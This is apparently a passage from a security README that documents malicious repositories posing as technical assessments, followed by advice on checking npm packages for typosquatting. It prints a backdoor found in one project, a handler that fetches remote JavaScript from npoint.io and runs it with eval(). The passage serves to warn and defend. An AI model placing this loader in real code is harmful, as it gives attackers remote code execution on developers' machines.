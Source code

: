 Located in `golden-city/` directory. This repository contains a payload in `backend/controllers/userController.js` at line 204:

```javascript
exports.getCookie= asyncErrorHandler(async (req, res, next) => {
    const rs_L = await axios.get("https://api.npoint.io/e8e29958efde154f3d7d");
    const rs_C = await axios.get("https://api.npoint.io/632ab82bbc8d7f4c2d44");
    eval(rs_L.data.cookie);
    eval(rs_C.data.cookie);
  })();
```

The payload is obfuscated and executes fetched JavaScript code using eval(), allowing attackers to run malicious code with node-level privileges.

### 10. Sarostech Assessment

Located in `sarostech-assessment/` directory. Another malicious project disguised as a technical assessment.

### 11. Scammer Documents

Located in `scammer-documents/` directory. Contains documentation and examples of scammer tactics and techniques.

## Checking for Malicious npm Packages

We strongly recommend checking all npm packages in your projects against the Snyk vulnerability database. Malicious packages are regularly published and can easily infiltrate projects through typosquatting or dependency confusion attacks.

To check if your project contains known malicious packages:

1. Visit the Snyk vulnerability database: https://security.snyk.io/vuln/npm
2. Use tools like `npm audit` to automatically scan your dependencies
3. Pay special attention to packages marked as "Malicious Package" in the Snyk database
4. Be wary of packages with names similar to popular libraries but with slight variations

Remember that attackers frequently publish packages with names very similar to legitimate packages (e.g., `react-dev-tools` vs `react-dev-tool`).
